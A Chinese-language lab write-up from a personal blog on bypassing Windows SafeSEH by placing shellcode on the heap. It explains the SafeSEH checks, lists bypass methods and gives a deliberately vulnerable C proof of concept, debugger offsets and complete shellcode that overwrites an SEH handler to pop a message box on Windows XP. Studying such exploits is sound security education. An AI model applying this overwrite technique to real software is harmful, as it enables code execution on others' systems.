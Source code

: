 ```yaml
---
layout: post
title: "使用堆绕过SafeSEH机制"
author: "kumqu"
---
```


## SafeSEH 对异常处理的保护原理

​	在`Windows XP SP2` 及后续的操作系统中, 微软引入了`SEH`校验机制`SafeSEH`.`SafeSEH`的原理如下: 在程序调用异常处理函数前, 对要调用的异常处理函数进行一系列的有效性校验, 当发现异常处理函数不可靠时将终止异常处理函数的调用.

​	在`VS 2003`及后续的版本中, 链接选项中的`/SafeSEH`选项是默认启用的, 这可以让编译好的程序具备`SafeSEH`功能. 启用该选项后, 编译器在编译程序的时候将程序所有的异常处理函数地址提取出来, 编入一张安全`SEH`表, 并将这张表放到程序的映像里面. 当程序调用异常处理函数的时候会将函数地址与安全`SEH`表进行匹配, 检查调用的异常处理函数是否位于安全`SEH`表中. 在`VS`命令提示行, 执行`dumpbin /loadconfig filename`可以查看程序安全`SEH`表的情况, 如下图所示: 

<img src="https://github.com/kumqu/kumqu.github.io/blob/master/_image/2019-08-02/1.PNG" alt="1" style="zoom:75%;" />

​	`SafeSEH`机制首先调用了`RtlDispatchException()`函数判断: 异常处理链是否位于当前程序栈中; 异常处理指针是否指向当前程序栈中. 若不通过都将终止异常处理函数的调用. 之后调用`RtlIsValidHandler()`函数, 其伪代码如下:

```
BOOL RtlIsValidHandler( handler )
{
    if (handler is in the loaded image)      // 在加载模块的内存空间内
    {
        if (image has set the IMAGE_DLLCHARACTERISTICS_NO_SEH flag)
            return FALSE;                    // 程序设置了忽略异常处理
        if (image has a SafeSEH table)       // 含有 SafeSEH 表说明程序启用了 SafeSEH
            if (handler found in the table)  // 异常处理函数地址在表中
                return TRUE;
            else
                return FALSE;
        if (image is a .NET assembly with the ILonly flag set)
            return FALSE;                    // 包含 IL 标志的 .NET 中间语言程序
    }

    if (handler is on non-executable page)   // 在不可执行页上
    {
        if (ExecuteDispatchEnable bit set in the process flags)
            return TRUE;                     // DEP 关闭
        else
            raise ACCESS_VIOLATION;          // 访问违例异常
    }

    if (handler is not in an image)          // 在可执行页上，但在加载模块之外
    {
        if (ImageDispatchEnable bit set in the process flags)
            return TRUE;                     // 允许加载模块内存空间外执行
        else
            return FALSE;
    }
    return TRUE;                             // 允许执行异常处理函数
}


```

​	根据上述流程, 运行异常处理函数执行的情况如下: 

* 异常处理函数在加载模块外, `DEP`关闭
* 异常处理函数在加载模块内, 相应模块未启用`SafeSEH`(安全`SEH`表为空)且不是纯`IL`
* 异常处理函数在加载模块内, 相应模块启用`SafeSEH`, 异常处理函数地址包含在安全`SEH`表中

​    因此, 绕过`SafeSEH`机制有如下方法:

* 覆盖函数返回地址. 若攻击对象启用了 `SafeSEH` 但是 没有启用 `GS` 或者存在未受` GS `保护的函数
* 利用虚函数表来绕过 `SafeSEH`
* 将 `shellcode` 部署在堆中以绕过 `SafeSEH`
* 利用未启用 `SafeSEH` 的模块绕过 `SafeSEH`
* `DEP` 关闭时，可以利用加载模块之外的地址作为跳板绕过`SafeSEH`

## 从堆中绕过 SafeSEH

​	 实验环境如下:

|   操作系统   |      `Windows XP SP3`       |
| :----------: | :-------------------------: |
|  **编译器**  |  **`Visual Studio 2008`**   |
| **编译选项** | **`DEP`关闭, 禁用优化选项** |

​	`POC`代码如下, 含义是用`shellcode`在堆中的起始地址覆盖异常处理函数地址, 然后通过除0异常调用异常处理函数: 

```
#include <stdlib.h>
#include <string.h>

char shellcode[] = "\x90...";

void test(char *input)
{
	char str[200];
	strcpy(str, input);
	int zero = 0;
	zero = 1 / zero;
}

void main()
{
	char *buf = (char *)malloc(500);
	strcpy(buf, shellcode);
	test(shellcode);
}
```

​	使用`OllyDbg`运行编译好的程序, 执行到程序中断在完成申请堆中空间的位置, 如下图所示, 寄存器`EAX`中存放着申请空间的首地址, 即地址`003907A8`是`shellcode`的首地址:

![2](../_image/2019-08-02/2.PNG)

​	然后执行到`test`函数的`strcpy`完成后, 填充的`0x90`标识出了字符串的起始地址, 即地址`0x0012FE5C`是溢出字符串的起始地址, 如下图所示:

![3](https://github.com/kumqu/kumqu.github.io/_image/2019-08-02/3.PNG)

​	打开`SEH`链视图,  `SEH`异常处理函数指针位于`0x0012FFB0+4`的位置(`0x0012FFB0`为指向下一个`SEH`的链表指针, `0x0012FFB4`才是异常回调函数句柄), 如下图所示:

![4](https://github.com/kumqu/kumqu.github.io/_image/2019-08-02/4.PNG)

​	因为 `0x0012FFB4 - 0x0012FE5C = 344字节`, 所以缓冲区起始地址与异常回调函数句柄之间有344字节间隙. 使用的`shellcode`布局为: 168个字节的弹出对话框的机器码; 176字节的填充`\x90`; 4字节使用`003907A8`缓冲区地址填充, 用于更改异常回调函数的句柄. 修改好的`shellcode`如下:

```
char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xA8\x07\x39\x00"//address of shellcode in heap
;
```

​	重新编译程序, 在程序`0x003907A8`位置设置断点, `F9`运行程序到上述断点处中断. 由此可知, 已经成功绕过`SafeSEH`机制转入`shellcode`运行了. 继续运行程序, 执行`shellcode`显示弹窗, 如下图所示:

<img src="https://github.com/kumqu/kumqu.github.io/_image/2019-08-02/5.PNG" alt="5" style="zoom:80%;" />

​	最终, 成功实现了从堆中绕过 `SafeSEH`机制.

